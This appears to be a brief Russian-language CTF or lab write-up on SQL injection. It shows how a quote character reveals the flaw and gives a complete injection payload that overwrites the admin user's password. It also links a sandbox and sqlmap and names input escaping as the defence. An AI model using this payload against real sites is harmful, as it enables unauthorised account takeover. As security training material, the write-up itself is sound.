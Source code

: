 # День четвертый (SQL Injection)
-- -
### Цель атаки: 
получить доступ к пользователю admin на сайте 

### Решение:

Отправив `"` обнаруживаем наличие SQL Injection уязвимости. Далее для нас достаточно подменить пароль к пользователю
admin и зайти с измененным паролем.

### Итоговый эксплоит:
```sql
');
UPDATE users SET password = 'kek' WHERE user = 'admin';
INSERT INTO users VALUES ('lol
```

### Интсрументы и полезные ссылки
- Песочница, где можно потестить SQL запросы https://sql-academy.org/ru/sandbox
- Универсальная утилита для поиска SQL Injection https://sqlmap.org/

### Способ защиты
- Экранировать весь пользовательский ввод на сервере через специальные общеиспользуемые форматеры.

